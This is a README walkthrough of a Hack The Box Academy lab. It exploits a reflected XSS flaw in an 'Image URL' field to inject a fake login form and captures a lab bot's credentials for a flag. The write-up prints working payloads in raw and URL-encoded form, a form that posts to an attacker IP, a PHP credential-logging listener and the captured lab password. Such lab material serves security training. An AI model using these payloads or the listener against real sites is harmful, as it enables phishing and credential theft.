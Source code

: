 # HTB Academy XSS Phishing Task Solution

This repository documents my complete solution to the Hack The Box (HTB) Academy Cross-Site Scripting (XSS) phishing task. The goal was to exploit an XSS vulnerability in an "Image URL" input field, inject a fake login form, capture victim credentials, and use them to retrieve a flag.

- **Attacker IP (My Machine):** `10.10.14.179` (where credentials are sent)
- **Target IP (HTB Server):** `10.129.9.211` (hosts the vulnerable app)
- **Date Solved:** April 10, 2025
- **Author:** Manoj (with assistance from Grok by xAI)

---

## Objective
Exploit the XSS vulnerability at `http://10.129.9.211/phishing/index.php?url=` to:
1. Inject a malicious login form that submits credentials to `10.10.14.179`.
2. Capture the victim's credentials using a PHP listener.
3. Log in at `http://10.129.9.211/phishing/login.php` with the captured credentials to get the flag.

---

## Step-by-Step Solution

### Step 1: Confirm XSS Vulnerability
1. **Access the Target Page:**
   - Navigate to: `http://10.129.9.211/phishing/index.php`
   - Identify the "Image URL" input field and submit button.

2. **Test Input Reflection:**
   - Enter: `test`, inspect the page source.
   - Expected: `<img src='test'>` → potential XSS.

3. **Test XSS Exploit:**
   - Input: `'><script>alert(1);</script>`
   - URL: `http://10.129.9.211/phishing/index.php?url='><script>alert(1);</script>`
   - Outcome: Alert pops up → XSS confirmed.

---

### Step 2: Craft the Malicious Payload

#### HTML:
```html
<h3>Please login to continue</h3>
<form action=http://10.10.14.179>
  <input type="username" name="username" placeholder="Username">
  <input type="password" name="password" placeholder="Password">
  <input type="submit" name="submit" value="Login">
</form>
```

#### Raw Payload:
```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.179><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script>
```

#### URL Encoded Payload:
```
%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease%20login%20to%20continue%3C%2Fh3%3E%3Cform%20action%3Dhttp%3A%2F%2F10.10.14.179%3E%3Cinput%20type%3D%22username%22%20name%3D%22username%22%20placeholder%3D%22Username%22%3E%3Cinput%20type%3D%22password%22%20name%3D%22password%22%20placeholder%3D%22Password%22%3E%3Cinput%20type%3D%22submit%22%20name%3D%22submit%22%20value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E
```

#### Malicious URL:
```
http://10.129.9.211/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27...%3C%2Fscript%3E
```

---

### Step 3: Set Up the Listener

#### PHP Listener (index.php):
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.9.211/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

#### Command:
```bash
cd /tmp
nano index.php
sudo php -S 0.0.0.0:80 -t /tmp
```

Test with dummy credentials, check `/tmp/creds.txt`.

---

### Step 4: Send the Malicious URL

```
http://10.129.9.211/phishing/send.php?url=http://10.129.9.211/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27...
```

HTB bot visits, submits credentials, and they're logged.

---

### Step 5: Login and Get the Flag
- URL: `http://10.129.9.211/phishing/login.php`
- Username: `admin`
- Password: `p1zd0nt57341myp455`
- Result: HTB{...}

---

### Step 6: Cleanup
```bash
Ctrl+C
rm /tmp/index.php /tmp/creds.txt
```

---

### Troubleshooting

- **No XSS?** Try `<img src=x onerror=alert(1)>`
- **No creds?** Check if server is listening and VPN is up.
- **Login fails?** Verify credentials captured properly.

---

### Tools Used

- Browser: Firefox
- Terminal: PHP Server
- OS: Kali Linux
- Editor: Nano

---

### Outcome

- Captured: `admin / p1zd0nt57341myp455`
- Flag: Successfully retrieved.
- Credit: Grok (xAI) for assist

Happy hacking!
